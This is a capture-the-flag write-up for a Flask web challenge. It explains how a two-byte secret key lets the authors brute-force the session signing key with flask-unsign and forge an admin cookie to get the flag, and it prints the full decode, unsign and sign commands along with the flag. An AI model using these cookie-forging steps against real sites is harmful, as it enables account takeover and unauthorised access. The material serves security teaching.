


## Web/flask
### Description
Only users registered as admin should be allowed to view the flag.

Site: flasksessions.io.ept.gg
### Solution

When opening the website we are presented with a minimal login screen. 


When reviewing the code we can see that if we register the name admin it will abort and give us a 403 (forbidden). But when looking at the page which will give us the flag it will only give us the flag if our name is admin. The name was read from the session-cookie.
```python
    if name == "admin":
        abort(403)
    ...
    name = session.get('name')
    if name and name == "admin":
        return make_response(render_template('index.html', name=name, flag=flag))
```

When logged in as something different than admin a cookie is generated for us. 

This cookie can be decoded.
```
$ flask-unsign --decode --cookie  "eyJuYW1lIjoiRmVzc2VNaXNrIn0.Y2tf5w.COcKdbnP6Tq6v5cMSilh6rLxPt4"
{'name': 'FesseMisk'} 
```
Now it seemed obvious what we were to do to get our flag. We needed to change the cookie from `{'name': 'FesseMisk'} ` to `{'name': 'admin'}`.
Even though we managed to decode a cookie without problem, it isn't as easy to sign a new one. We need the secret_key so propperly sign our cookie. This is a security mechanism used to prevent hacking attempts that change cookie values as we are doing now. Luckily we have the application code and can see what the secret_key for signing cookies is. 

```python
def generate_random_key():
    key = randbytes(1)
    key += choice(ascii_lowercase).encode("ascii")
    return key
...
app.secret_key = generate_random_key()
```
Using two bytes as a secret key is definitly not a secure key. 
A wordlist was made out of the two possible bytes `[ (0,255), (97,122) ]` and used to brute force the correct signing key. 
```
$ flask-unsign --unsign --cookie  "eyJuYW1lIjoiRmVzc2VNaXNrIn0.Y2tf5w.COcKdbnP6Tq6v5cMSilh6rLxPt4" --wordlist wl.txt
...
[+] secret found after 640 attempts
'\x13x'
```

It was a easy key to bruteforce, and now that we have it we can sign our new cookie. Passing the byte 0x13 as an agrument was a hurdle for us to overcome, but is done as shown below. 

`flask-unsign --sign --cookie "{'name': 'admin'}" --secret $'\x13x'` 

With our new cookie containing `'name': 'admin'` signed with the correct key we are good to go! Copy it and paste this into the session cookie value field before updating the page gave us access to the admin site and thus the flag.  

### Flag
`EPT{flask-sessions-with-weak-key-is-no-goodie}`